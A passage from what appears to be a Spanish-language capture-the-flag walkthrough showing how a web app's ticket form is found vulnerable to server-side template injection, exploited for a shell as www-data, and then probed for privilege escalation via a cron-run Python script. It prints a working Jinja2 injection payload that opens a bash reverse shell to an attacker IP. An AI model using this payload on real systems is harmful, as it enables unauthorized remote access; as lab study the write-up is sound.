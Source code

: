 ```js
{{///7*7///}} *borrar triple slash (///)
```

- Damos ENTER y comprobamos en la página web que se nos interprete esta operatoria, en caso de mostrarse el "49" significaría que sí que es vulverable a `SSTI`.

- De primeras en la página principal vemos que no se nos interpreta el título, pero si accedemos al ticket mediante el campo de "link" podemos observar que efectivamente en el título y en la descripción del ticket se nos muestra el "49".

- Teniendo presente un SSTI lo usaremos para ganar acceso al sistema montándonos una `reverse shell` creando otro ticket que contenga la siguiente inyección:

```js
----------->{% ///for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("bash -c 'bash -i >& /dev/tcp/192.168.1.35/443 0>&1'").read()}}{%endif%}{% endfor %}
```

- Habiendo hecho esto estando en escucha en nuestra máquina atacante ganaremos acceso al sistema como el usuario `"www-data"`.


<br><br>

# ESCALANDO PRIVILEGIOS:

- Hacemos un análisis con pspy y encontramos lo siguiente:

```js
2023/03/29 00:45:01 CMD: UID=1000  PID=1512   | /bin/sh -c /usr/bin/python3 /home/saint/.sync-data/syncer.py 
2023/03/29 00:45:01 CMD: UID=1000  PID=1511   | /bin/sh -c /usr/bin/python3 /home/saint/.sync-data/syncer.py 
2023/03/29 00:45:01 CMD: UID=0     PID=1510   | /usr/sbin/CRON -f 
2023/03/29 00:45:01 CMD: UID=1000  PID=1514   | /usr/bin/python3 /home/saint/.sync-data/syncer.py 
```

- Como vemos, se está ejecutando automáticamente la script en python `"syncer.py"`, si hacemos una búsqueda en el sistema, encontramos en el directorio "/opt" varios archivos y directorios ocultos, en los que encontramos dos archivos interesantes: ".configuration.cpython-38.pyc" y ".syncer.cpython-38.pyc"; se tratan de dos archivos compilados de python.

- Notamos que el segundo archivo (.syncer.cpython-38.pyc) tiene casi el mismo nombre del archivo que vimos que se está ejecutando de forma automática cada cierto tiempo (/home/saint/.sync-data/syncer.py) así que podríamos deducir que se trata de una clase de copia o backup del mismo, y dado que tenemos acceso de lectura lo podremos analizar.

# Análisis de código Python:

- Primero, transferimos los dos archivos ocultos que encontramos a nuestra máquina atacante.

- Luego los `decompilamos` usando la librería `"uncompyle6"` de Python para poder leer el código sin problema:
